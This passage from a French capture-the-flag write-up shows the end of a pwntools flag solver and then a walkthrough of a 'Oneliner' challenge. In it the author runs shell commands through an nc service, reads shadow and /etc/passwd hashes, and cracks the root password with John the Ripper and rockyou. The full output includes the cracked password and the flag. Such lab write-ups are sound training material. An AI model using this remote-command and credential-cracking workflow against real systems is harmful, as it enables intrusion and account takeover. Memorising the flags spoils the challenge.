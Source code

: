 ```python
    pwn.log.success('FLAG = HSR{' + hashlib.md5(result.encode()).hexdigest() + '}')
    clean()


if __name__ == '__main__':
    main()
```

On obtient: `HSR{0870c7a157d6bb8bd0989db4df1cc58f}`

<br>
<hr>
<br>

# [Misc] Oneliner

## Consignes

```bash
nc 10.22.6.101 15001
```

## Exploration

Les commandes envoyés via ce flux retourne le résultat d'une commande shell:

```bash
$ nc 10.22.6.101 15001
Send me something.
whoami
noob
```

En explorant les dossiers du `$HOME` on tombe sur un fichier `shadow` contenant les données suivantes:
```
root:$6$Fmbc/WIUv1/wz9HO$zFGPCl6WmPHwwm7h.DEWjI/Ie2iXSYCir6zyiQIraNDv9SHyls8s8aCVQCq2WPY1EvC/BHwS7FtKOaFR6dS.v.:19054:0:99999:7:::
noob:$6$9YJYhryw4tLAllN3$TrPoPr3MVd9Bj3Ft0Y3wbpCHBqGeZmZF5AYeJS2Mv9vanPHl7lOLNIgR3c4IdQkgxnaGs6NLhT894nWOpU/bU/:19054:0:99999:7:::
```

On extrait également le fichier `/etc/passwd`:
```
root:x:0:0:root:/root:/bin/bash
noob:x:1000:1000::/home/noob:/bin/bash
```

On essaye de casser les hashs avec une wordlist:
```bash
$ unshadow /tmp/passwd /tmp/shadow > /tmp/hashes
$ john /tmp/hashes --wordlist=$HOME/Downloads/rockyou.txt 
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Remaining 1 password hash
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:29 0% 0g/s 3257p/s 3257c/s 3257C/s 19061988..131518
0g 0:00:01:30 1% 0g/s 3308p/s 3308c/s 3308C/s nishikido..nika15
0g 0:00:04:38 5% 0g/s 3304p/s 3304c/s 3304C/s ingridutza..infinity19
0g 0:00:07:16 9% 0g/s 3312p/s 3312c/s 3312C/s netta01..nethic
0g 0:00:08:42 10% 0g/s 3311p/s 3311c/s 3311C/s huunghia..hustler01
jumpingjacks77   (root)
1g 0:00:35:10 100% 0.000473g/s 3230p/s 3230c/s 3230C/s jumpingjimmy..jumphawk82
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```